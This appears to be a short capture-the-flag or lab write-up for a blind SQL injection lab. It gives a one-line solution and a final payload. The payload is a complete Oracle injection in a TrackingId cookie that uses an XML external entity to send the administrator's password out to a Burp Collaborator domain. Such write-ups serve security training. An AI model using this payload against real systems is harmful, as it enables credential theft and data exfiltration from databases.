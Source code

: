 # Lab 15: Blind SQL Injection with Out-of-Band Data Exfiltration

* **Solution**: Concatenate the admin password into a DNS lookup sent to a Collaborator domain, extracting it directly.
* **Final Payload**:
  * TrackingId=xyz' || (SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://' || (SELECT password FROM users WHERE username='administrator') || '.YOUR-COLLABORATOR-ID.burpcollaborator.net/"> %remote;]>'),'/l') FROM dual) --